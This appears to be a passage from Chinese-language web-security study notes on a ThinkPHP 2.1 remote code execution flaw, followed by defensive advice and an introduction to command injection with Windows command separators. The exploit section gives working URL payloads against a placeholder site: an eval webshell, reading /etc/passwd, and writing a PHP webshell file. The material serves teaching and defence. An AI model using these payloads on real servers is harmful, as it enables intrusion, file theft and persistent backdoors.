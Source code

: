 ### 漏洞利用

一般找CMS相应版本漏洞，如**ThinkPHP2.1**

* 一句话木马
  
  给语句加上了${}，令其为变量，可作为动态函数执行。
  
  `http://www.xxx.com/News/detail/id/{${@eval($_POST[aa])}}`
  
* 得到当前路径
  `http://www.xxx.com/News/detail/id/{${print(getcwd()))}}`
  
* 读文件
  `http://www.xxx.com/News/detail/id/{${exit(var_dump(file_get_contents($_POST['f'])))}}`
  POST的数据为：`f=/etc/passwd`
  
* 写shell
  `http://www.xxx.com/News/detail/id/{${exit(var_dump(file_put_contents($_POST['f'],$_POST[d])))}}`
  POST的数据为：`f=1.php&d=<?php @eval($_POST['aa'])?>`


### 防御

- 少用或禁用命令执行函数

  尽量**少用**执行命令的函数或者直接**禁用**。能使用脚本解决的工作，不要调用其他程序处理。尽量少用执行命令的函数，并在**disable_functions**中禁用

- 确保动态执行的函数为指定的函数

  在使用动态函数之前，确保使用的函数是**指定的函数**之一

- 参数用引号括起，且进行过滤或固定

  在进入执行命令的函数/方法之前，**对参数进行过滤，对敏感字符进行转义**。参数的值尽量使用引号包裹，并在拼接前调用addslashes进行转义。

  对于可控点是程序参数的情况下，使用escapeshellcmd函数进行过滤，对于可控点是程序参数值的情况下，使用escapeshellarg函数进行过滤

而针对由特定第三方组件引发的漏洞，我们要做的就是及时打补丁，修改安装时的默认配置。

对于eval( )函数一定要保证用户不能轻易接触eval的参数或者用正则严格判断输入的数据格式。

**对于preg_replace放弃使用/e修饰符**。如果必须要用e修饰符，请保证第二个参数中，对于正则匹配出的对象，用单引号包裹 。

## 命令执行漏洞

### 原理

用户通过浏览器提交操作系统执行命令，由于服务器端 **没有针对执行函数做过滤**，导致在没有指定绝对路径的情况下就执行命令，可能会允许使用者通过改变 $PATH 或程序执行环境的其他方面来执行一个恶意构造的代码。

在操作系统中，`&`、`|`、`||`都可以作为命令连接符使用，用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令。（`||`只要满足第一个条件，后面的条件就不再判断，而`|`要对所有的条件进行判断）

**Windows系统命令拼接：**

```
“|”：管道符，前面命令标准输出作为后面命令的标准输入。
“&” commandA & commandB 先运行命令A，然后运行命令B
“||” commandA || commandB 运行命令A，如果失败则运行命令B
“&&” commandA && commandB 运行命令A，如果成功则运行命令B
```
